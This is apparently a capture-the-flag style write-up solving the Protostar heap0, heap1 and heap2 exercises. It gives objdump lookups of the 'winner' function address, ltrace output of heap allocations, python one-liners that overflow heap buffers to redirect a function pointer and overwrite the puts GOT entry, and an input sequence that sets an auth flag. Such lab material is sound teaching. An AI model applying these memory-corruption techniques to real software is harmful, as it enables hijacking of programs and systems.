 ##Heap0
* `objdump -t ./heap0 | grep winner`
```
08048464 g     F .text  00000014              winner
08048478 g     F .text  00000014              nowinner
```
* ./heap0 `python -c "print 'A'*72+'\x64\x84\x04\x08'"`

##Heap1
* `objdump -t ./heap1 | grep winner`
`08048494 g     F .text 00000025              winner`
* `objdump -TR ./heap1 | grep winner`
```
00000000      DF *UND*  00000000  GLIBC_2.0   puts
08049774 R_386_JUMP_SLOT   puts
```
* we use `ltrace` to know about the memory process
```
user@protostar:/opt/protostar/bin$ ltrace ./heap1 `python -c "print 'A'*4"` `python -c "print 'B'*4"`
__libc_start_main(0x80484b9, 3, 0xbffff884, 0x8048580, 0x8048570 <unfinished ...>
malloc(8)                                        = 0x0804a008
malloc(8)                                        = 0x0804a018
malloc(8)                                        = 0x0804a028
malloc(8)                                        = 0x0804a038
strcpy(0x0804a018, "AAAA")                       = 0x0804a018
strcpy(0x0804a038, "BBBB")                       = 0x0804a038
puts("and that's a wrap folks!"and that's a wrap folks!
)                 = 25
+++ exited (status 25) +++

```
* so what we need to do is to overwrite the `puts` to the `winner` address
* ./heap1 `python -c "print 'A'*20+'\x74\x97\x04\x08'"` `python -c "print '\x94\x84\x04\x08'"`

##Heap2
* To pass it we need change the `auth->auth` value to be non zero
* `ltrace ./heap2`
* well as the service will be write in the heap place of `stuct auth` so just need a long(for example 40) input `service+'A'*40` will overwrite `auth->auth`
* we need `auth admin` first and then `service9999999999999999999999999999999999` then `login`